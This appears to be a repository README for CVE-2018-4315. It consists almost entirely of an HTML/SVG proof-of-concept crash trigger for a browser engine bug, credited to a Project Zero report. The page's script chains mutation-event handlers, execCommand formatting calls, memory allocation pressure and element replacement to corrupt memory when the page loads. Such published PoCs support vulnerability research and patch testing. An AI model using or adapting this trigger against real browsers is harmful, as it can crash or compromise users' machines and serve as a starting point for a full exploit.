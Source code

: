 # CVE-2018-4315

## PoC

```html
<script>
function freememory() {
 for(var i=0;i<100;i++) {
   a = new Uint8Array(1024*1024);
 }
}
function eventhandler2() {
  svgvar00004.setAttribute("y", "0 1 100");
  document.execCommand("justifyCenter", false);
  svgvar00008.setAttribute("visibility", "hidden");
  freememory()
  document.createElement("q");
  svgvar00007.replaceWith(svgvar00008);
}
function eventhandler4() {
  svgvar00020.addEventListener("DOMNodeInserted", eventhandler2);
  document.execCommand("hiliteColor", false, "red");
}
</script>
<svg id="svgvar00001">
<switch id="svgvar00004">
<tref id="svgvar00007" xlink:href="#svgvar00008" />
<tref id="svgvar00008">
<tspan id="svgvar00020" />
<use id="svgvar00029" xlink:href="#svgvar00001" onload="eventhandler4()" />
```

## Reference

- [Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1604)
